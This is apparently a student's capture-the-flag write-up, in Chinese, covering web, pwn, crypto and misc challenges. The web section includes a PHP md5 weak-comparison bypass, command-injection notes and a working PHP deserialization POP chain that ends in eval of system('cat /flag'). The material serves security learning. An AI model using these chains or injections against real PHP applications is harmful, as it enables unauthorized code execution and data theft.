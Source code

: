 # pwn
1. 签到题

    nc pwn.aw31-hack.top 10002

直接nc一下进取，cat/flag.txt就完事了
# web
1. easy_md5
![](./i/1.png)

php的弱比较，找md5前和md5后都是0e开头的，第一个比较是数组不能被md5化

2. php_is_the_best_language

查看源码有提示，传个猴子我是没想到的，套神太强了

![](./i/2.png)

绕过第一个比较，数字后面随便加字符就行，绕过第二个写个php就可以找到

```php
<?php 
for ($i=0;$i < 100000;$i++){
 $shell=md5($i);
 if(substr($shell,5,5)=== "dc3ad"){
 echo "$shell<br />";
 echo $i; 
 }
}
?>
```
3. [echo] More than just 🐎?

尝试着，再看传参应该是命令注入，已知cmd[]=传入数组会报错，试着试着就出来了，这题真的迷糊，不知道为啥cat /flag不行，估计后台过滤了

![](./i/3.png)

4. 重复几次

太阴了，buu有题，hint提示fl@g和ffffllllaaaagggg被误导了，结果是flag，套神师傅饶了我吧

![](./i/4.png)

5. php_serialize_2

一道比较简单的反序列化构造，直接上pop
```php
<?php
class class1{
    public $var1;
    public $var2;
    public function __construct()
    {
        echo "Have Fun!!!";
    }
    public function __wakeup()
    {
        $this->var1->solving();
    }
}
class class2
{
    public $var1;
    public $var2;
    public function solving()
    {
        echo "Solved???";
    }
}
class class3
{
    public $var1;
    public $var2;
    public function solving()
    {
        $this->var2->getFlag();
    }
}
class class4
{
    public $var1='flag{this_is_not_Flag}';
    public $var2;
    public function getFlag()
    {
        echo "flag{".$this->var1."}";
    }
}
class class5
{
    public $var1;
    public $var2;
    public function hackCmd($cmd)
    {
        @eval($cmd);
    }
    public function call()
    {
       $this->hackCmd($this->var1);

    }


}
class class6
{
    public $var1;
    public $var2;
    public function __toString()
    {
        $this->var1->hack();
        return "{this_is_not_Flag}";
    }
}
class class7
{
    public $var1="AWSL";
    public $var2;
    public function __invoke()
    {
        echo "Bite Me".$this->var1;
    }
}
class class8
{
    public $var1;
    public $var2;
    public function hack()
    {
        echo "决胜局～";
        $this->var1->call();
    }
}
if(isset($_GET['a']))
{
    unserialize($_GET['a']);
}
$a=new class1;
$a->var1=new class3;
$a->var1->var2=new class4;
$a->var1->var2->var1=new class6;
$a->var1->var2->var1->var1=new class8;
$a->var1->var2->var1->var1->var1=new class5;
$a->var1->var2->var1->var1->var1->var1="system('cat /flag');";
echo urlencode(serialize($a));
?>
```
![](./i/5.png)

感动，人生第一次做出来ctf比赛的反序列化

# Crypto
1. 凯撒加入了北约
看到那么多新生都做出来，亚历山大，看了半天才试出来，先把首字母截取

```python
s='Charlie Hotel Alfa Romeo Lima India Echo Alfa Lima Foxtrot Alfa Echo Charlie Hotel Oscar Sierra India Echo Romeo Romeo Alfa Alfa Lima Foxtrot Alfa Romeo Oscar Mike Echo Oscar India November Delta India Alfa November Oscar Victor Echo Mike Bravo Echo Romeo November Oscar Victor Echo Mike Bravo Echo Romeo Alfa Lima Foxtrot Alfa Tango Alfa November Golf Oscar Oscar Sierra Charlie Alfa Romeo'
for i in s:
    if ord(i)>64 and ord(i) < 91:
        print(i,end="")
```

得到

CHARLIEALFAECHOSIERRAALFAROMEOINDIANOVEMBERNOVEMBERALFATANGOOSCAR

然后全都转换成小写，再认识一下单词，英语不太好，再把所有单词首字母提出来就是flag了

# misc
1. Unicode

太阴了，还有隐藏字符，，，，，直接unidecode两次

![](./i/6.png)

2. lsb

,查看颜色通道，有个通道上面有牙啃得东西，送分题

![](./i/7.png)

3. peekaboo

首先是密码暴力破解，六位数密码，破解出来后是个world，无法打开，binwalk分离一下，成功获取flag

4. re

根据题目，先re，然后直接转换图片flag就出来了

5. 破解WIFI密码

破解这个.cap

![](./i/8.png)

获得密码admin123

6. miku

有点类似祥云杯的一道misc，emmm想了好久

gif先分离，发现只有两种图片，第一直觉是二进制，然后先尝试转换了一下二进制，想了半天应该不是ascii，也不是ascii加凯撒，最终发现729可以开方，这就好办了，直接弄成二维码，果然就是二维码

![](./i/9.png)